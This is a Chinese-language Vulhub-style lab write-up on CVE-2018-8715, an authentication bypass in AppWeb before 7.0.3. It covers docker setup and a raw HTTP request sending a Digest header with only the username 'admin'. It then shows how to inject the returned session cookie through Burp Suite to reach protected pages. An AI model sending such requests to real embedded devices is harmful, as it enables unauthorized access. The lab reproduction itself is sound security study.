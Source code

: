 # AppWeb认证绕过漏洞 CVE-2018-8715

## 漏洞描述

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

- basic 传统HTTP基础认证
- digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
- form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

参考链接：

- https://ssd-disclosure.com/index.php/archives/3676

## 环境搭建

Vulhub执行如下命令启动一个带有digest认证的Appweb 7.0.1服务器：

```
docker-compose up -d
```

访问`http://your-ip:8080`，需要输入账号密码。

## 漏洞复现

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`admin`。

构造头`Authorization: Digest username=admin`，并发送如下数据包：

```
GET / HTTP/1.1
Host: 192.168.174.128:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Authorization: Digest username=admin
```

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：

![image-20220221164849686](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211648848.png)

在Burpsuite→Options→Match and Replace中设置规则，这样在每次发送数据包时将自动在Headers中加入Cookie，添加session到浏览器：

![image-20220221170835479](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211708588.png)

即可正常访问需要认证的页面：

![image-20220221171619437](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211716649.png)

